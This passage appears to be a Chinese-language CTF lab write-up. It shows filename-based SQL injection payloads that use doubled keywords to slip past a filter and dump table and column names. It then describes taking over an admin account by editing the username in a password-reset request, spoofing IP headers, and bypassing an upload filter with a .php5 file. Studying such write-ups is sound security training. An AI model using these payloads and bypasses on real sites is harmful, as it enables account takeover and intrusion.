 payload:

数据库名:`hello',1660,1660),(database(),1660,1660)#.jpg`

表名:`hello',1660,1660),((selselectect GROUP_CONCAT(table_name) FROfromM information_schema.tables WHERE TABLE_SCHEMA=database()),1660,1660)#.jpg`

列名:`hello',1660,1660),((selselectect GROUP_CONCAT(column_name) FROfromM information_schema.columns WHERE table_name='hello_flag_is_here'),1660,1660)#.jpg`

flag:`hello',1660,1660),((selselectect GROUP_CONCAT(i_am_flag) FROfromM hello_flag_is_here),1660,1660)#.jpg`

### bug

拿到网址，先随便玩一玩,目录扫扫,没找到啥有意思的

登入前有.注册,登入,找回密码的页面,url有点文件读取的感觉

考虑sql注入,文件读取,越权.先注册个号玩一玩,发现里面有个管理页面需要admin权限,想办法搞到admin账号,看了下cookie,username有点意思,看起来像md5加密`5d39c2d4a0776ed48f3ec303520788c5`,去查了一下没查到，那就换个点吧。

url:`http://111.198.29.45:44727/index.php?module=index&do=member&uid=5`

试试能不能通过index来任意文件读取,发现不行是白名单限制

sql注入试起来太久了,去看看更改密码吧,

http头:

```
POST /index.php?module=findpwd&step=1&doSubmit=yes HTTP/1.1

username=ccreater&birthday=2015%2F01%2F01&address=aa
```

发现step和username有点搞头.

修改step,发现不行,重置之前注册账号的密码进入第二步,

```
POST /index.php?module=findpwd&step=2&doSubmit=yes HTTP/1.1

username=ccreater&newpwd=admin
```

修改username试试,成功,美滋滋

进入管理界面，提示ip地址错误,修改常见识别ip地址的属性,成功得到下一步的提示`<!-- index.php?module=filemanage&do=???-->`

emmm,随便试一下,upload......成功了

提示是图片当不仅仅只是图片,文件上传喽。

一番测试后发现修改content-type,以.php5作为后缀,内容为`<script language="php">phpinfo();</script>`时得到flag

吐槽一下,你知道我想要什么是真的无语,你不说我咋知道

### ics-07

进入界面,拿到关键代码
